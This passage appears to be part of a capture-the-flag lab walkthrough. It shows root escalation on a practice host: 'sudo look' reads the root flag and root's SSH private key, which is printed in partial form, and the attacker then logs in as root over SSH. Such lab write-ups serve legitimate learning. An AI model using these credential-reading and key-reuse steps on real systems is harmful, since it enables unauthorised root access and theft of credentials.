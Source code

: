 ![Victim: think](https://img.shields.io/badge/Victim-think-64b5f6?logo=linux&logoColor=white)

`ls -ld /root`:
```
drwx------ 5 root root 4096 Apr  2  2024 /root ←
```

`sudo look '' /root/root.txt`:
```
5a285a9f257e45c68bb6c9f9f57d18e8 ←
```

<🔄 Alternative Step.>

![Victim: think](https://img.shields.io/badge/Victim-think-64b5f6?logo=linux&logoColor=white)

`sudo look '' /root/.ssh/id_rsa`:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAptm2+DipVfUMY+7g9Lcmf/h23TCH7qKRg4Penlti9RKW2XLSB5wR
Qcqy1zRFDKtRQGhfTq+YfVfboJBPCfKHdpQqM/zDb//ZlnlwCwKQ5XyTQU/vHfROfU0pnR

[...]

dhIPjNOOghtbrg0vvARsMSX5FEgJxlo/FTw54p7OmkKMDJREctLQTJC0jRRRXhEpxw51cL
3qXILoUzSmRum2r6eTHXVZbbX2NCBj7uH2PUgpzso9m7qdf7nb7BKkR585f4pUuI01pUD0
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./root_rsa`:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAptm2+DipVfUMY+7g9Lcmf/h23TCH7qKRg4Penlti9RKW2XLSB5wR
Qcqy1zRFDKtRQGhfTq+YfVfboJBPCfKHdpQqM/zDb//ZlnlwCwKQ5XyTQU/vHfROfU0pnR

[...]

dhIPjNOOghtbrg0vvARsMSX5FEgJxlo/FTw54p7OmkKMDJREctLQTJC0jRRRXhEpxw51cL
3qXILoUzSmRum2r6eTHXVZbbX2NCBj7uH2PUgpzso9m7qdf7nb7BKkR585f4pUuI01pUD0
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

`chmod 600 ./root_rsa`

`ssh -i ./root_rsa root@192.168.56.134`:
```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 08 Oct 2024 04:46:41 PM UTC

  System load:  0.0               Processes:                225
  Usage of /:   80.4% of 9.75GB   Users logged in:          0
  Memory usage: 37%               IPv4 address for enp0s17: 192.168.56.134
  Swap usage:   0%

Last login: Tue Oct  8 16:46:37 2024 from 192.168.56.118
```
